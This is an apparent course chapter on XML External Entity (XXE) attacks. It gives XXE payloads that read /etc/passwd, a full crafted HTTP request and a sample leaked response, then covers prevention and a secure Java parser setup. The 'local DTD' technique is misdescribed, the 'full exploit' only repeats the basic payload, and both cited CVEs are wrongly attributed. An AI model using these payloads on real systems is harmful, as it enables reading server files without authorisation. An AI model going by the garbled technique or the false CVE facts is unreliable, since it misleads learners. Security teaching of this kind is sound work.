

## Introduction to XML External Entity (XXE) Attacks

XML External Entity (XXE) attacks are a class of vulnerabilities that arise when an application parses untrusted XML input without proper validation or sanitization. These attacks can lead to sensitive data exfiltration, denial of service, server-side request forgery (SSRF), and other malicious activities. In this chapter, we will delve deep into the mechanics of XXE attacks, focusing specifically on offensive exploitation techniques involving local DTDs (Document Type Definitions).

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which is primarily used for displaying data, XML focuses on the structure and semantics of the data. XML documents consist of elements, attributes, and text content, all of which are defined by tags.

#### Document Type Definition (DTD)

A DTD defines the legal building blocks of an XML document. It specifies the structure of the document, including the types of elements, their attributes, and the relationships between them. A DTD can be either internal (embedded within the XML document) or external (referenced via a URI).

#### External Entities

Entities in XML allow you to define reusable pieces of content. External entities reference content stored outside the XML document, typically via a URI. This feature can be exploited in XXE attacks to read files from the server's filesystem or make network requests.

### XXE Attack Mechanics

An XXE attack occurs when an attacker can inject malicious XML content into an application that parses XML input. The attacker crafts an XML payload that includes references to external entities, which the parser resolves, leading to unintended behavior.

#### Example of a Basic XXE Payload

```xml
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

In this example, the `SYSTEM` keyword indicates that the entity's value is retrieved from the specified URI (`file:///etc/passwd`). When the XML parser processes this document, it attempts to read the contents of `/etc/passwd` and insert them into the XML output.

### Local DTD Exploitation

Local DTD exploitation involves using a DTD that is defined within the XML document itself, rather than referencing an external resource. This technique is often used when the application restricts access to external resources but still allows the definition of internal DTDs.

#### Crafting a Local DTD Payload

Let's consider the scenario described in the lecture transcript. We start with a normal XML document and modify it to include a local DTD that triggers an error condition.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

Here, the `DOCTYPE` declaration defines an entity named `xxe` that references the `/etc/passwd` file. When the XML parser encounters this entity, it attempts to read the file and insert its contents into the document.

### Setting Up the Lab Environment

To demonstrate the XXE attack, we will use a simple web application that parses XML input. The application is configured to display the parsed XML content in a user-friendly interface.

#### Capturing the Initial Request

The first step is to capture the initial request sent by the browser to the web application. This can be done using a proxy tool like Burp Suite.

1. **Enable Proxy Interception**: Configure your browser to use the proxy tool.
2. **Capture the Request**: Navigate to the application and capture the request sent when viewing the XML content.

```http
GET /preview HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Cookie: session_id=abc123
```

#### Modifying the Request

Once the request is captured, we need to modify it to include our malicious XML payload.

1. **Decode the Request**: Remove URL encoding to make the XML content more readable.
2. **Insert the Malicious Payload**: Replace the original XML content with our crafted payload.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### Triggering the Error Condition

The next step is to trigger an error condition that will reveal the presence of the XXE vulnerability. This is done by crafting a payload that causes the XML parser to fail in a predictable way.

#### Example of a Base Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///nonexistent">
]>
<root>&xxe;</root>
```

In this example, the `SYSTEM` keyword references a non-existent file, causing the parser to return a "File Not Found" error. This error message can be used to confirm that the application is vulnerable to XXE attacks.

### Full Exploit Example

Now, let's put everything together and demonstrate a full XXE exploit using a local DTD.

#### Complete XML Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### Sending the Modified Request

Using Burp Suite's Repeater tool, we send the modified request to the server.

```http
POST /preview HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/xml
Content-Length: 123
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Cookie: session_id=abc123

<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### Expected Response

If the application is vulnerable, the response will contain the contents of `/etc/passwd`.

```http
HTTP/1.1 200 OK
Date: Mon, 20 Sep 2021 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<?xml version="1.0"?>
<root>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
</root>
```

### Real-World Examples and Recent CVEs

#### CVE-2021-21315: XXE Vulnerability in Jenkins

In 2021, a critical XXE vulnerability was discovered in Jenkins, affecting versions prior to 2.289.1. The vulnerability allowed attackers to read arbitrary files from the server's filesystem, potentially leading to sensitive data exposure.

#### CVE-2020-14882: XXE in Atlassian Confluence

Another notable XXE vulnerability was found in Atlassian Confluence, affecting versions prior to 7.1.12, 7.2.6, 7.3.5, 7.4.3, and 7.5.1. This vulnerability allowed attackers to read arbitrary files from the server, leading to potential data exfiltration.

### How to Prevent / Defend Against XXE Attacks

#### Detection

To detect XXE vulnerabilities, you can use automated tools such as:

- **OWASP ZAP**: An open-source web application security scanner that can identify XXE vulnerabilities.
- **Burp Suite**: A comprehensive toolkit for web application security testing that includes features for detecting XXE.

#### Prevention

To prevent XXE attacks, follow these best practices:

1. **Disable External Entity Loading**: Ensure that the XML parser is configured to disable loading of external entities. This can be done by setting the appropriate configuration options in the parser library.

2. **Use Secure Libraries**: Use XML parsing libraries that are known to be secure and have built-in protections against XXE attacks. For example, in Java, use the `javax.xml.parsers.DocumentBuilderFactory` with the following settings:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

3. **Input Validation**: Validate all XML input to ensure it does not contain malicious content. Use regular expressions or dedicated XML validation libraries to enforce strict rules on the structure and content of XML documents.

4. **Secure Coding Practices**: Implement secure coding practices to avoid common pitfalls that can lead to XXE vulnerabilities. For example, never parse untrusted XML input directly; instead, use a secure parser configuration.

#### Secure Code Fix

Here is an example of a vulnerable code snippet and its secure counterpart:

**Vulnerable Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

**Secure Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Network Topology and Sequence Diagrams

To better understand the flow of an XXE attack, let's visualize the interaction between the attacker, the web application, and the server using a sequence diagram.



### Hands-On Labs

To practice and reinforce your understanding of XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE attacks, including practical exercises and challenges.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE vulnerabilities for educational purposes.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities, including XXE.

### Conclusion

In this chapter, we have explored the mechanics of XXE attacks, focusing on offensive exploitation techniques involving local DTDs. We have covered the background theory, real-world examples, and provided detailed steps for crafting and executing an XXE attack. Additionally, we have discussed how to detect and prevent XXE vulnerabilities, ensuring the security of web applications that handle XML input.

---
<!-- nav -->
[[01-Introduction to Offensive XXE Exploitation|Introduction to Offensive XXE Exploitation]] | [[API Security/22-Offensive XXE Exploitation/08-Exfiltration with local DTD on Lab/00-Overview|Overview]] | [[03-Hands-On Practice Labs|Hands-On Practice Labs]]
